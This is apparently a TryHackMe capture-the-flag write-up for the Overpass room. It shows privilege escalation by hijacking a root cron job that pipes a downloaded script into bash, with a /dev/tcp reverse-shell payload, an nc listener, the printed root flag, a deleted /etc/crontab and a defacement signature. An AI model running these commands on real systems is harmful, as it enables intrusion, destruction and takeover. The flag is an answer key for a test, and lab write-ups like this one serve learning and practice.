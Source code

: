 1) I see the cronjob:
```
james@overpass-prod:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```
2) I edit the file /etc/hosts in this way:
```
<my TryHackMe IP> overpass.thm
```

-->In My Local Machine

1) I create this path /downloads/src/:
```
┌──(kali㉿kali)-[~/Overpass]
└─$ mkdir downloads 

┌──(kali㉿kali)-[~/Overpass]
└─$ cd downloads
   
┌──(kali㉿kali)-[~/Overpass/downloads]
└─$ ls     
   
┌──(kali㉿kali)-[~/Overpass/downloads]
└─$ mkdir src     

┌──(kali㉿kali)-[~/Overpass/downloads]
└─$ cd src      
  
```
2) I create this file "buildscript.sh" and I write my reverse shell:
```
┌──(kali㉿kali)-[~/Overpass/downloads/src]
└─$ nano buildscript.sh

┌──(kali㉿kali)-[~/Overpass/downloads/src]
└─$ cat buildscript.sh
#!/bin/bash
bash -c "bash -i >& /dev/tcp/<my TryHackMe IP>/4444 0>&1"

```
3) Then I open the listening port:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
```
4) After I in this directory "/home/kali/Overpass" open a webserver wirth python:
```
┌──(kali㉿kali)-[~/Overpass]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.204.121 - - [06/Jan/2023 15:40:00] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 
```
5) Spawn the root shell and I get the root flag:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.8.21.1] from (UNKNOWN) [10.10.204.121] 34806
bash: cannot set terminal process group (2427): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# cat /root/root.txt
cat /root/root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}
```

----------
## Patch the machines vulnerabilities

1) I remove the file "/etc/crontab":
```
root@overpass-prod:~# rm /etc/crontab
rm /etc/cronta
```
2)  I leave my signature:
```
root@overpass-prod:~# cd /home/james
cd /home/james
root@overpass-prod:/home/james# touch README.txt      
touch README.txt
root@overpass-prod:/home/james# echo 'CyberSpider  has been here, Now I am root :)' > README.txt
<ider  has been here, Now I am root :)' > README.txt
root@overpass-prod:/home/james# cat README.txt
cat README.txt
CyberSpider  has been here, Now I am root :)
root@overpass-prod:/home/james# chmod a=+r /home/james/README.txt
```

